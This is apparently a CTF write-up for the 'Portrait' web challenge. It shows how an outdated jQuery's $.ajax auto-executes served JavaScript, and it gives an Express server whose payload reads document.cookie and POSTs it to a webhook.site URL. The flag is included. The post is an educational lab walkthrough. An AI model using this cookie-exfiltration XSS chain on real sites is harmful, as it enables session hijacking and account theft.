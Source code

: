 ```yaml
---
layout: post
current: post
cover:  assets/squ1rrel/kyleburgess2025/portrait/cover.png
navigation: True
title: "Portrait"
date: 2025-04-06 11:59:00
tags: [squ1rrel, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


It's like DeviantArt, but with a report button to keep it less Deviant. *Reporting a gallery will make the admin bot visit it.*

Welcome to Portrait, the final challenge I wrote and my first XSS challenge. The idea for this challenge came from a super cool Canvas vuln I read about recently. This XSS vulnerability in the Canvas course software was found by Andrew Healey and can be read about [here](https://github.com/andrew-healey/canvas-lms-vuln). The vulnerability comes from an outdated version of JQuery being used - namely, 1.7.2, which has [this vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9251). The name of this challenge, Portrait, is a cheeky reference to the Canvas vulnerability.

# The Problem

Upon registering for an account, we are brought to a gallery where we can create new portraits, providing a name and a source URL for the image. The gallery also displays our previous portraits as a title and an image combination.

![image of gallery page](/assets/squ1rrel/kyleburgess2025/portrait/gallery.png)
*if you're looking for a gallery curator, MoMA, hmu*

There is also a `/report` endpoint where you can give the admin bot a link to a gallery to visit; the flag will be stored in the cookies of the admin bot. The admin bot will only visit other pages on the Portrait website. Basically, we need to make a portrait that will cause the cookies of the admin bot to be leaked to us when the admin bot visits.

# Diving In

Let's take a look at the suspicious parts of the code.

First, at the top of `static/gallery.html`, we have the following:

```html
<script type="text/javascript" src="https://code.jquery.com/jquery-1.8.1.min.js"></script>
```

Sweet, an outdated version of JQuery! A quick Google of JQuery 1.8.1 leads us back to the [CVE](https://www.cvedetails.com/cve/CVE-2015-9251/) I mentioned earlier. Now, let's see how we can exploit it...

```js
$(document).ready(function () {
  const username = new URLSearchParams(window.location.search).get("username");
  $.ajax({
      url: "/api/portraits/" + username,
      type: "GET",
      success: function (data) {
          data.forEach(portrait => {
              const newImage = $("#portraitsContainer").append(`
                  <div class="col-md-4 mb-4">
                      <div class="card shadow-sm">
                          <img src="${portrait.source}" class="card-img-top" alt="${portrait.name}">
                          <div class="card-body text-center">
                              <h5 class="card-title">${portrait.name}</h5>
                          </div>
                      </div>
                  </div>
              `);
              newImage.find("img").last().on("error", e => {
                  $.get(e.currentTarget.src).fail(response => {
                      if (response.status === 403) {
                          $(e.target).attr("src", "https://cdn.pixabay.com/photo/2021/08/03/06/14/lock-6518557_1280.png");
                      } else {
                          $(e.target).attr("src", "https://cdn.pixabay.com/photo/2024/02/12/16/05/siguniang-mountain-8568913_1280.jpg");
                      }
                  })
              })
          });
      }
  });
  // ...
});
```

Ok, first off, we have `$.ajax` being called without the `dataType` option, which is a red flag. However, on success, the data retrieved from the URL is put into an `img` source, so any scripts returned won't be run. Let's look instead at the error handling. If an `img` element has an error, a request is made to the image source and the error code is checked to see which placeholder image should be used.

However, the JQuery CVE we discussed before mentioned that if `dataType` is not specified and Javascript is returned, the script will automatically be run on the client's computer. Thus, if we can deploy a server that serves Javascript instead of an image and make it the source for one of our portraits, we should get XSS! Let's try:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    alert("XSS");
})();
`;

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

Using you favorite quick-deploy service (I used Cloudflared, since it doesn't have an interstitial that checks if you're human), we can get a public URL that we can use as the image source. Let's try this out:

![image of gallery page with xss](/assets/squ1rrel/kyleburgess2025/portrait/xss.png)

Beautiful. Now, let's change the payload:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    const cookies = document.cookie;
    const url = "https://webhook.site/91c39d9c-76da-4ced-9624-96700b8ad703";

    fetch(url, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: "cookies=" + encodeURIComponent(cookies)
    });
})();
`

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

After deploying with Cloudflared and reporting the link to my account (`http://{CHALLENGE_IP}/gallery?username={ACCOUNT_NAME}`), our Webhook gets pinged!

![image of a Webhook request](/assets/squ1rrel/kyleburgess2025/portrait/webhook.png)

Flag: `flag=squ1rrel{unc_s747us_jqu3ry_l0wk3y_take_two_new_flag_check_this_out_guys}`
